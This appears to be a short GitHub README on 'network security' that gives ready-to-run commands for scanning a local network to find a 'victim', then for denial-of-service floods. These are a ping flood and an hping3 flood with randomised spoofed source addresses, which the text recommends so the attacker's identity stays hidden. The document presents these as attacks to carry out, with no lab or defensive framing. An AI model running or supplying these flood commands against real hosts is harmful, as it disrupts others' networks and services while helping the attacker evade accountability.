 # Network-Security
## getting info about devices connected to your local network
to start an attack you should first get some basic information about your victim, like ip address.
my favorite command is the last one, but it requires the installation of avahi.
The first thing to get into network security is to learn how to use nmap. There is a tutorial in this repo for that.
we can use one or more of the following commands to get that info:
```
nmap -sP 192.168.1.0/24
arp -a
arp
avahi-discover
avahi-browse -rat
```
## ping flooding (DOS attack)
ping flood basically floods the target pc with lots of ping requests so that it cannot access any other internet resource.
But it will also flood your pc with ping responses, so use this command only if you are sure that your pc has greater speed than the victim.
command:
```
  ping -f -s 65500 ip(or website)
```

However, there are more sophisticated tools available at our disposal like Hping3
using hping we can easily spoof our ips, so that your identity remains secure while doing the attacks
after installing hping3, we can use the following commands:

```
  hping3 -S -P -U --flood -V --rand-source website(or ip)
```
